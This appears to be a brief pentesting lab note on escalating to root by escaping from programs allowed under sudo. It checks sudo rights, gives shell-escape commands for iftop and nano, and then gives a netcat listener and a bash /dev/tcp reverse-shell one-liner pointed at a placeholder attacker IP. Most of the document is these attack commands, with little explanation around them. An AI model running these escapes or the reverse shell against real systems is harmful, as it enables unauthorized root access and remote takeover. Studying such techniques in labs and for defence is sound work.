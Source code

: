 # shell escaping

start to know which process run with sudo privilege `sudo -l`

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

we will exploit all service

***

### Iftop

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/sbin/iftop
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### awk

<figure><img src="../../../.gitbook/assets/image 3 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

> may command line not suitable when as a root by nano service so let’s try to take a reverse shell

### nano

<figure><img src="../../../.gitbook/assets/image 4 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo nano
ctrl+R
ctrl+x
reset; sh 1>&0 2>&0
```

which open a root shell but it’s blind which u can see the result only so let’s take a reverse shell on our machine

```bash
# attacker machine
nc -nlvp 5253
```

```bash
# victim
bash -i >& /dev/tcp/AttackerIP/5253 0>&1
```

<figure><img src="../../../.gitbook/assets/image 5 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
